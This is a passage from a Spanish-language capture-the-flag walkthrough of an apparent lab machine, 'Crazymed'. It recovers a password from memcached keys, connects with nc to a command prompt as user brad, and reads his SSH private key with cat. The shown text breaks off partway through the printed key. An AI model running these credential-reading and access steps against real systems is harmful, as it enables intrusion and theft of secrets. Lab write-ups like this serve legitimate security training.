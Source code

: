 Vemos que ha funcionado y nos ha proporcionado `4` keys, por lo que vamos a reconstruirlas un poco de mejor forma.

La que mas nos interesa es esta:

```
log            "VALUE log 0 18\r\npassword: cr4zyM3d\r\nEND\r\n"
```

Por lo que vemos la contraseña seria `cr4zyM3d`, por lo que vamos a probarlo utilizando `nc` de nuevo para conectarnos.

## Escalate user brad

```shell
nc <IP_VICTIM> 4444
```

Metemos como contraseña `cr4zyM3d` y veremos que estaremos en una especie de `prompt` en el que podremos ejecutar comandos como si fuera una terminal, vamos a ver quienes somos.

```
Welcome to the Crazymed medical research laboratory.
All our tests are performed on human volunteers for a fee.


Password: cr4zyM3d
Access granted.

Type "?" for help.

System command: whoami
brad
System command: id
uid=1000(brad) gid=1000(brad) groups=1000(brad),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
```

Vemos que somos el usuario `brad`, vamos a ver si tuviera alguna `id_rsa` para conectarnos por `SSH` de mejor forma.

```shell
cat /home/brad/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA7RxztsvAPFz3TvDfW7xfFrsltczhiDcNYMkMVsyWTlXBQTb7CiDs
rE8NEpfCalTIVZtkJsVjRAgNd3cCLmwnm+3eijrTNCQHA81VgCTAU8w9F4btGgbyVjwnha
PzjpVLmCJrX+1oNEshNvdbemyOBsbVcTCMHkG4bCxpCmvnhTou4ttrZLwhXruNg+ev7l2a
G2aGyEGSBcil8mjd1w1D7MrCffY6OEJJSDTKiDdVnpFKaGaB3xmRoX7etkZ9lyYCzWtGlv
xH4+nxCvN1oDXHR43wmMK7HnCy4IOriiTPDAbiSfnoJWnJbIRqJYu2xryuv1FrMPWujEFi
BIjxg1u/MQRRBNgWFkVtLFx+qmQIBtCPLK/TaCzhDcg14fCDCdEPnR+C8STjwAcqR6an3x
Q2+m1TrfAH0g3vMMCHYbmqtPrsJosQ8gMbiRtlxMApo4wr4Shvf0DaTLl/JTFIAgCUqOwS
ZM+BFWtx1W0Riti6mfag9wRnz94m8nQ7BqI9m1Y7AAAFgOJeec7iXnnOAAAAB3NzaC1yc2
EAAAGBAO0cc7bLwDxc907w31u8Xxa7JbXM4Yg3DWDJDFbMlk5VwUE2+wog7KxPDRKXwmpU
yFWbZCbFY0QIDXd3Ai5sJ5vt3oo60zQkBwPNVYAkwFPMPReG7RoG8lY8J4Wj846VS5gia1
/taDRLITb3W3psjgbG1XEwjB5BuGwsaQpr54U6LuLba2S8IV67jYPnr+5dmhtmhshBkgXI
pfJo3dcNQ+zKwn32OjhCSUg0yog3VZ6RSmhmgd8ZkaF+3rZGfZcmAs1rRpb8R+Pp8Qrzda
A1x0eN8JjCux5wsuCDq4okzwwG4kn56CVpyWyEaiWLtsa8rr9RazD1roxBYgSI8YNbvzEE
UQTYFhZFbSxcfqpkCAbQjyyv02gs4Q3INeHwgwnRD50fgvEk48AHKkemp98UNvptU63wB9
IN7zDAh2G5qrT67CaLEPIDG4kbZcTAKaOMK+Eob39A2ky5fyUxSAIAlKjsEmTPgRVrcdVt
EYrYupn2oPcEZ8/eJvJ0OwaiPZtWOwAAAAMBAAEAAAGASN+LuMyaQnMYFwz0uM8GMohGKL
/VOPYiiHKB9lNehqjYgmCReyVvV+3byLEXsXJpN9ZQS5Iy1f/bk7Hh276l1cifssAtlULV
XRfIhV/GNHr687YmPO+Rn2tRgkNHYbUEzLcXZR4j/p5wkOIpHVErvW1ywBz5k3sDYUus5O
UQ/ONK8bIaKZWgc+sUrUuRyKK/8FfsaLOuW1S1m/Ea7TNIgwg2ClyYvB2zRBvle0P2bouc
```